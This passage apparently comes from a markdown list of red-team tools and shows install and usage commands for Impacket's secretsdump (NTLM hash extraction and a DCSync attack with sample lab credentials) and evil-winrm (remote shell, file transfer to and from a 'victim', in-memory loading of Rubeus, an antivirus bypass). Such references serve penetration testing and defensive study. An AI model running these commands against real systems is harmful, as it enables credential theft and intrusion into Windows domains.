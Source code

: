 **Install:**

```bash
python3 -m pip install impacket
```

**Usage:**

```bash
# Extract NTLM hashes with local files
secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/systemhive LOCAL

# DCSync attack and dump the NTLM hashes of all domain users.
secretsdump.py -dc-ip 10.10.10.30 MEGACORP.LOCAL/svc_bes:Sheffield19@10.10.10.30
```

![image](https://user-images.githubusercontent.com/100603074/210266110-8f60d6e8-009a-4dea-9e33-8a712aeaf2ac.png)

_Image used from https://riccardoancarani.github.io/2020-05-10-hunting-for-impacket/#secretsdumppy_

### [🔙](#tool-list)[evil-winrm](https://github.com/Hackplayers/evil-winrm)

Evil-WinRM is a tool that provides a command line interface for Windows Remote Management (WinRM: _A service that allows administrators to remotely execute commands on a Windows machine_).

Evil-WinRM allows an attacker to remotely connect to a Windows machine using WinRM and execute arbitrary commands.

Some features include:

- Loading in memory Powershell scripts
- Loading in memory dll files bypassing some AVs
- Loading x64 payloads
- Pass-the-hash support
- Uploading and downloading local and remote files

**Install: (Git)**

```bash
sudo gem install winrm winrm-fs stringio logger fileutils
git clone https://github.com/Hackplayers/evil-winrm.git
cd evil-winrm
```

**Install: (Ruby gem)**

```bash
gem install evil-winrm
```

Alternative installation instructions can be found [here](https://github.com/Hackplayers/evil-winrm#installation--quick-start-4-methods).

**Usage:**

```bash
# Connect to 192.168.1.100 as Administrator with custom exe/ps1 download folder locations
evil-winrm  -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'

# Upload local files to victim
upload local_filename
upload local_filename destination_filename

# Download remote files to local machine
download remote_filename
download remote_filename destination_filename

# Execute .Net assembly into victim memory
Invoke-Binary /opt/csharp/Rubeus.exe

```